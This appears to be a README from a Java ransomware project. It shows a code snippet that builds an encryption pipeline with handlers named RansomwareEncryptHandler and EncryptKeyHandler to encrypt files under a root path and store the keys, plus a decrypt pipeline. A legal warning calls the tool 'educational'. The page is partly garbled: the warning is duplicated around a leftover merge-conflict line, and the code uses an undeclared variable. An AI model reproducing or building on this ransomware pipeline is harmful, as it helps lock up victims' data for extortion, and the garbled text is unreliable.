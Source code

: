 ```java
        //Path testPath = Paths.get(Objects.requireNonNull(ExampleTest.class.getResource("/test.txt")).toURI());
        PipelineData pipelineData = new PipelineData();
        pipelineData.setPrivateKey(PrivateKey);
        pipelineData.setPublicKey(PubicKey);

        // Alternative Gen RSA. Make sure you save the keypair to a file if not loaded
//        RSAGenKeyReader.StringKeyPair keyPair=RSAGenKeyReader.generateKeyPair();
//        pipelineData.setPrivateKey(keyPair.privateKey());
//        pipelineData.setPublicKey(keyPair.publicKey());

        pipelineData.setRootPath(testPath.toAbsolutePath().toString());

        Pipeline<PipelineData, PipelineData> encrypt_filters = new Pipeline<PipelineData, PipelineData>(new DatabaseRetrieveHandler())
                .addHandler(new GenSymmetricKeyHandler())
                .addHandler(new RansomwareEncryptHandler())
                .addHandler(new EncryptKeyHandler())
                .addHandler(new DatabaseStoreHandler());
        var encrypt_output = encrypt_filters.execute(pipelineData);
        System.out.println("Pipeline encrypt_output: " + encrypt_output);


        Pipeline<PipelineData, PipelineData> decrypt_filters = new Pipeline<PipelineData, PipelineData>(new DatabaseRetrieveHandler())
                .addHandler(new DecryptKeyHandler())
                .addHandler(new RansomwareDecryptHandler())
                .addHandler(new DecryptKeyHandler());
        var decrypt_output = decrypt_filters.execute(pipelineData);
        System.out.println("Pipeline output: " + decrypt_output);
    }
}

```

---

![alt tag](./JavaRansomWare.PNG)

# Legal Warning

While this may be helpful for some, there are significant risks. JavaRansomware may be used only
for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use
it for malicious purposes.
=======
# Legal Warning
<p>While this may be helpful for some, there are significant risks. JavaRansomware may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use it for malicious purposes.</p>
